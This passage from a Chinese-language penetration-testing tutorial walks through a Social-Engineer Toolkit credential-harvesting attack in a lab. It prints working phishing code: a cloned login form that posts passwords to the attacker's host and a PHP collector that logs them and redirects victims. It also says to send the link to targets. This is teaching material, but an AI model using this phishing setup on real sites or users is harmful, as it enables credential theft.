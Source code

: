     现在我们拥有原始登录页面的一份精确副本。

11.  现在在里面输入一些用户名和密码，并点击`Login`。我们要尝试`harvester/test`。

12.  你会看到页面重定向到了原始的登录页面。现在，来到终端并输入收集器文件保存的目录，默认为 Kali 中的`/var/www/ html`：

    ```
    cd /var/www/html
    ```

13.  这里应该有名称为`harvester_{date and time}.txt`的文件。

14.  显示它的内容，我们会看到所有捕获的信息：

    ```
    cat harvester_2015-11-22 23:16:24.182192.txt
    ```

    ![](../img/b0d492b9bb0253f83f950c5d268edf1c.png)

    这就结束了，我们仅仅需要将连接发送给我们的目标，并让他们访问我们的伪造登录页面，来收集它们的密码。

### 工作原理

SET 在克隆站点的时候会创建三个文件：首先是`index.html`，这是原始页面的副本，并包含登录表单。如果我们查看 SET 在我们的 Kali 中的 `/var/www/html`创建的`index.html`的代码，我们会发现下面的代码：

```
<form action="http://192.168.56.1/post.php" method=post> 
<br> 
Username: <input type=text name=username><br> 
Password: <input type=password name=password><br> 
<br><input type=submit value=Login><br> 
</form>
```

这里我们可以看到用户名和密码都发给了 192.168.56.1 （我们的 Kali 主机）的`post.php`，这是 SET 创建的第二个文件。这个文件所做的所有事情就是读取 POST 请求的内容并将它们写入`harvester_{date and time}.txt`文件。 SET 所创建的第三个文件储存由用户提交的信息。在向文件中写入数据之后，`<meta>`标签重定向到原始的登录页面，所以用户会认为他们输入了一些不正确的用户名或密码：

```
<?php 
$file = 'harvester_2015-11-22 23:16:24.182192.txt'; 
file_put_contents($file, print_r($_POST, true), FILE_APPEND); 
?> 
<meta http-equiv="refresh" content="0; 
url=http://192.168.56.102/peruggia/index.php?action=login" 
/>
```

